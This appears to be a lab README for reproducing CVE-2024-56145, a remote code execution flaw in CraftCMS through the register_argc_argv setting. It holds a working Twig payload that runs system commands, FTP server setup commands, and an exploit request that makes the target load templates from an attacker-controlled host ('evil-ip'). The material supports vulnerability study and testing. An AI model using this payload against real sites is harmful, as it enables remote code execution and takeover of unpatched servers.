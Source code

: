 # CraftCMS `register_argc_argv` Leads to Remote Code Execution (CVE-2024-56145)

[中文版本(Chinese version)](README.zh-cn.md)

CraftCMS is a PHP-based content management system for building websites and applications.

CraftCMS version before 5.5.2 and 4.13.2 is vulnerable to remote code execution if the PHP setting `register_argc_argv` is enabled. When `register_argc_argv` is enabled, CraftCMS incorrectly reads configuration items from the HTTP request, allowing an attacker to control template files using the `--templatesPath`, which can lead to arbitrary code execution through template injection.

Reference:

- <https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9>
- <https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms>

## Vulnerable Environment

Execute the following command to start a CraftCMS server 5.5.1.1:

```
docker-compose up -d
```

After the server is running, you can see the installation page at `http://<your-ip>:8088/admin/install`. Please follow the instructions to install CraftCMS, the default database address is `db` and the username and password are both `root`.

![](1.png)

## Vulnerability Reproduction

To reproduce the vulnerability, you need to prepare a craft `index.twig` file which contains the following content, then place it on any remote server:

```twig
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

Then start a FTP server in the server where the `index.twig` file is located:

```bash
# install pyftpdlib
pip install pyftpdlib

# start a FTP server
python -m pyftpdlib -p 21212 -V
```

Then you can exploit the vulnerability by sending the following request:

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```

![](2.png)

As you can see, the `id` command is executed and the output is returned.
